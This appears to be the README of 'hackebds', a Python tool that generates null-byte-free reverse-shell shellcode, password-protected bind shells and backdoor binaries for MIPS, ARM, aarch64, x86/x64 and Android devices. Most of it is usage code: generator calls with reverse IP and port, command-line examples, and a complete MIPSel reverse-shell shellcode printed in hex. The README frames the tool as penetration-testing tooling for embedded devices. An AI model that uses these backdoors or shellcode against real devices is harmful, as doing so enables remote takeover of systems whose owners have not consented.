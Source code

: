 # introduction

## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language，**Has been updated to python3**

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

3.  Fixed some bugs that the reverse_shellcode and reverse_backdoor **ports were selected too big**, and **added the function of generating bindshell with specified ports and passwords under x86 and x64**，**and beautified the generation process****（This feature will be updated to various architectures）**
    Add support armvelv7_bind_shell(2022.10.27)，

4.  Removed the generation sleep time of shellcode, and added mips_ bind_ Shell, reverse of x86 and x64 small end_ shell_ Backdoor, the mips that are expected to be interrupted by mips_ bind_ Shell, which solves the error of password logic processing in the bindshell in mips，Joined aarch64_ bind_ shell

5.  Support command line generation backdoor and shell code, characterized by light, small, efficient and fast

## install

```
pip install hackebds
pip install -U hackebds
```

![image-20221102181217933](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png)

#### Instructions for use

When importing this module will import the pwn module

Please install the corresponding binutils environment before use
expample:

```
apt search binutils | grep arm（You can replace it here）
apt install binutils-arm-linux-gnueabi/hirsute
```

1. Use the command line to generate the backdoor file name, shellcode, binshell, etc

   ![image-20221102181421443](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181421443.png)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode -passwd 1231
   ```

   ![image-20221102181217933](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png)

2. Generate backdoor programs of various architectures, encapsulate pure shellcode, and successfully connect to the shell

```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_backdoor(reverse_ip,reverse_port)
>>> mips64el_backdoor(reverse_ip,reverse_port)
>>> x86_bind_shell(listen_port, passwd)
>>> x64_bind_shell(listen_port, passwd)
>>> armelv7_bind_shell(listen_port, passwd)
```

（Note that the maximum password length is 4 characters for x86（32bits） and 8 characters for x64（64bits））

```
>>> mipsel_backdoor("127.0.0.1",5566)
[+] reverse_ip is: 127.0.0.1
[+] reverse_port is: 5566
[*] waiting 3s
[+] mipsel_backdoor is ok in current path ./
>>>
```

![image-20221028144512270](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144512270.png)

```
>>> from hackebds import *
>>> x86_bind_shell(4466,"doud")
[+] bind port is set to 4466
[+] passwd is set to 'doud'
0x0000000064756f64
[*] waiting 3s
[+] x86_bind_shell is ok in current path ./
>>>
```

![image-20221028143802937](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028143802937.png)

Then connect to the port bound to the device (password exists)

![image-20221028144136069](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144136069.png)

2. Generates the use-back shellcode (no free) null bytes corresponding to various architectures

```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_reverse_sl(reverse_ip,reverse_port)
>>> mips64el_reverse_sl(reverse_ip,reverse_port)
>>> android_aarch64_backdoor(reverse_ip,reverse_port)
```

example:

```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```

## chips and architectures

Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

## updating

 2022.4.19 Added support for aarch64 null-byte reverse_shellcode

 2022.4.30 Reduced amount of code using functions and support python3

 2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and mipsel_reverse_sl were not enabled, added mips64_backdoor, mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl generation

 2022.5.21 0.0.9 version changed the generation method of armel V5 backdoor and added the specified generation of riscv-v64 backdoor

 2022.6.27 0.1.0 Added Android backdoor generation

 2022.10.26 0.1.5 Fixed some problems and added some automatic generation functions of bindshell specified port passwords

 2022.10.27 0.1.6 Add support armv7el_bind_shell(2022.10.27)

 2022.11.1 Removed the generation sleep time of shellcode, and added mips_ bind_ Shell, reverse of x86 and x64 small end_ shell_ Backdoor, the mips that are expected to be interrupted by mips_ bind_ Shell, which solves the error of password logic processing in the bindshell in mips

 2022.11.2 Joined aarch64_ bind_ shell


## One-click build environment

To be added
